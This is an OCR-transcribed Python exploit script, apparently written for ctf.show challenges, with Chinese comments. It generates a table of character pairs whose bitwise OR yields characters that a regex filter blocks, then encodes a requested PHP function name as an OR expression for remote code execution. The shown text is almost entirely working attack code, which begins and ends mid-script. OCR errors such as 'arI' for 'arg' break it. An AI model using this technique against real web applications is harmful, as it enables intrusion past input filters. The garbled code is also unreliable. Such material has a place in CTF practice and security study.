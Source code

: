 ```python
    print("="*50)
    print('USER:python exp.py <url>')
    print("eI:  python exp.py http://ctf.show/")
    print("exit: input exit in function")
    print("="*50)
    exit(0)
# 获取命令行参数中的 URL 
url=argv[1]

#生成可用的字符,定义一个函数，生成可用字符的组合并写入到文件 rce.txt 中
def write_rce():
    result = ''

    # 定义一个正则表达式字符串 preg，用于匹配数字、小写字母以及一些特殊字符。
    #这一段是需要更改的
    preg = '[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-'

    # 遍历 ASCII 码中的所有可能字符。
    for i in range(256):
        # 在每次循环中，再次遍历 ASCII 码中的所有可能字符
        for j in range(256):
            #如果字符 chr(i) 和 chr(j) 都不匹配正则表达式 preg，即它们不是数字、小写字母或特殊字符之一，那么执行以下操作。
            if not (re.match(preg, chr(i), re.I) or re.match(preg, chr(j), re.I)):
                # 将 i 和 j 进行按位或运算，得到一个新的字符 k。
                k = i | j
                # 如果新生成的字符 k 在可显示字符的 ASCII 范围内（32-126），则执行以下操作。
                if k >= 32 and k <= 126:
                    # 将 i和j 转换成两位的十六进制形式，并添加 '%' 前缀。
                    a = '%' + hex(i)[2:].zfill(2)
                    b = '%' + hex(j)[2:].zfill(2)
                    # 将生成的字符 chr(k) 以及对应的十六进制形式添加到 result 字符串中。
                    result += (chr(k) + ' ' + a + ' ' + b + '\n')
    f = open('rce.txt', 'w')
    f.write(result)

# 定义一个函数，根据输入的命令在生成的 rce.txt 中进行匹配，返回相应的字符组合。
def action(arg):
    s1=""
    s2=""
    #对于输入的参数 arg 中的每个字符执行以下循环
    for i in arI:
        f=open("rce.txt","r")
        while True:
            t=f.readline()
            if t=="":
                break
            if t[0]==i:
                #将当前行的第3到第5个字符（十六进制表示的第一个字符）添加到字符串 s1 中。
                s1+=t[2:5]
                #将当前行的第7到第9个字符（十六进制表示的第二个字符）添加到字符串 s2 中。
                s2+=t[6:9]
                break
        f.close()
    #构造一个字符串 output，形如 ("s1"|"s2")，其中 s1 和 s2 是之前匹配到的字符组合的十六进制表示。
    output="(\""+s1+"\"|\""+s2+"\")"
    return(output)
    
#是脚本的主函数，包含整个脚本的主要逻辑。
def main():
    write_rce()
    while True:
        s1 = input("\n[+] your function：")
        if s1 == "exit":
```